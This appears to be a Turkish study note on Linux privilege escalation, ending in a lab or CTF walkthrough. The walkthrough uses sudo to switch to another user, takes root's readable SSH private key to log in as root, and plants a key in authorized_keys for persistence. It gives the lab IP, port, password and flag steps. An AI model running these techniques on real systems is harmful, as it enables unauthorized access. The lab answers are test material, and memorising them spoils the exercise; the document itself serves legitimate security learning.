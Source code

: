 ```yaml
---
icon: material/help
search:
  boost: 2
---
```


# Privilege Escalation

Uzak bir sunucuya ilk erişim genellikle düşük ayrıcalıklı bir kullanıcı bağlamında olur. Tam erişim elde etmek için, ayrıcalıklar, kök kullanıcısına yükseltilmelidir. Bunun için dahili/yerel bir güvenlik açığı bulmak gerekir.

## PrivEsc Checklist

* [HackTricks](https://book.hacktricks.xyz/welcome/readme)
* [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Enumeration Scripts

* [LinEnum](https://github.com/rebootuser/LinEnum)
* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
* [Seatbelt](https://github.com/GhostPack/Seatbelt)
* [JAWS](https://github.com/411Hall/JAWS)
* [PEASS](https://github.com/carlospolop/PEASS-ng)

## Kernel Exploits

Eski bir işletim sistemi çalıştıran bir sunucuyla karşılaştığımızda potansiyel kernel açıklarını aramalıyız. Sunucunun en son güncellemeler ve yamalarla bakımının yapılmadığını varsayalım. Bu durumda, sunucunun, kernel açıklarına karşı savunmasız olması muhtemeldir. Kernel istismarları sistem kararsızlığına neden olabilir. Bu istismarları laboratuvar ortamında denemek ve yalnızca müşterinin açık onayı ve koordinasyonu ile çalıştırmak gerekir.

## Vulnerable Software

Sistemde yüklü yazılımlar için istismarlar aranmalıdır.

## User Privileges

Linux `#!bash sudo` komutu, kullanıcının, farklı bir kullanıcı olarak komut yürütmesine olanak tanır. Aşağıdaki komut ile `#!bash sudo` ayrıcalıkları kontrol edilebilir:

```bash
sudo -l
```

Herhangi bir komut başka bir kullanıcı olarak çalıştırılabilir:

```bash
sudo -u john /bin/echo Hello World!
```

Aşağıda verilen sayfalar ayrıcalık yükseltmek amacıyla kullanılan bazı faydalı komutları/uygulamaları içerir:

* [GTFOBins](https://gtfobins.github.io/)
* [LOLBAS](https://lolbas-project.github.io)

## Exposed Credentials

Kimlik bilgilerini açığa çıkarmak için, yapılandırma dosyalarına, log dosyalarına ve komut geçmişi dosyalarına bakılabilir.

## SSH Keys

Belirli bir kullanıcı için `.ssh` dizinini okuma yetkimiz olsun. Bu durumda dizinde bulunan özel SSH anahtarı oturum açmak için kullanılabilir.

Gizli anahtarın izin bilgisini değiştir:

```bash
chmod 600 ~/.ssh/id_rsa
```

Gizli anahtarı kullanarak SSH bağlantısı gerçekleştir:

```bash
ssh user@10.10.10.10 -i ~/.ssh/id_rsa
```

Belirli bir kullanıcı için `.ssh` dizinine yazma yetkimiz olsun. Bu durumda kendi üreteceğimiz bir açık anahtarı dizinde bulunan `authorized_keys` dosyasına yerleştirebiliriz. Bu teknik, shell erişimi kazandıktan sonra SSH erişimi elde etmek için kullanılır. Mevcut SSH yapılandırması diğer kullanıcılar tarafından yazılan anahtarları kabul etmeyecektir.

Öncelikle yeni bir anahtar çifti oluşturmalıyız:

```bash
ssh-keygen -f Key
```

Bu komut iki adet dosya üretecektir:

1. Key
2. Key.pub

Key.pub anahtarı uzak makinedeki `authorized_keys` dosyasına kopyalanmalıdır:

```bash
cat Key.pub >> ~/.ssh/authorized_keys
```

Bu sayede uzak sunucu özel anahtarımızı kullanarak oturum açmamıza izin verecektir.

Gizli anahtarın izin bilgisini değiştir:

```bash
chmod 600 Key
```

Gizli anahtarı kullanarak SSH bağlantısı gerçekleştir:

```bash
ssh user@10.10.10.10 -i Key
```

## Questions

```text
SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.
```

??? tip "Steps"

    User1 kullanıcısı ile SSH bağlantısı gerçekleştir (parola olarak `password1` kullan):

    ```bash
    ssh user1@94.237.53.58 -p 30018
    ```

    Ardından aşağıdaki komutu çalıştır:

    ```bash
    sudo -l
    ```

    ```text title="Output"
    Matching Defaults entries for user1 on ng-954801-gettingstartedprivesc-kwfvw-5d9799dc6d-dwnb4:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User user1 may run the following commands on ng-954801-gettingstartedprivesc-kwfvw-5d9799dc6d-dwnb4:
        (user2 : user2) NOPASSWD: /bin/bash
    ```

    Çıktıda görüldüğü üzere user2 kullanıcısı parola kullanmadan Bash shell çalıştırabiliyor. Bu bilgiden hareketle user2 kullanıcısına geçiş yap:

    ```bash
    sudo -u user2 /bin/bash
    ```

    Flag dosyasının içeriğini görüntüle:

    ```bash
    cat /home/user2/flag.txt
    ```

```text
Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'.
```

??? tip "Steps"

    User2 kullanıcısı ile aşağıdaki komutu çalıştır:

    ```bash
    ls -al /root/.ssh
    ```

    ```text title="Output"
    total 20
    drwxr-x--- 1 root user2 4096 Feb 12  2021 .
    drwxr-x--- 1 root user2 4096 Feb 12  2021 ..
    -rw------- 1 root root   571 Feb 12  2021 authorized_keys
    -rw-r--r-- 1 root root  2602 Feb 12  2021 id_rsa
    -rw-r--r-- 1 root root   571 Feb 12  2021 id_rsa.pub
    ```

    Çıktıda görüldüğü üzere `root` kullanıcısına ait özel anahtar herkes tarafından okunabilir durumdadır. Bu dosyanın içeriğini kopyala ve ardından mevcut SSH bağlantısını sonlandır.

    Kopyaladığın özel anahtar bilgisini yerel makinede yeni bir dosyaya kaydet. Bunu yaparken dosya satır sınırlayıcısının LF formatında olduğundan ve dosya sonunda boş bir satır olduğundan emin ol!

    Gizli anahtarın izin bilgisini değiştir:

    ```bash
    chmod 600 private_key_file
    ```

    Gizli anahtarı kullanarak SSH bağlantısı gerçekleştir:

    ```bash
    ssh root@94.237.53.58 -p 30018 -i private_key_file
    ```

    Cevabı elde etmek için soruda belirtilen dosyanın içeriğini görüntüle:

    ```bash
    cat /root/flag.txt
    ```
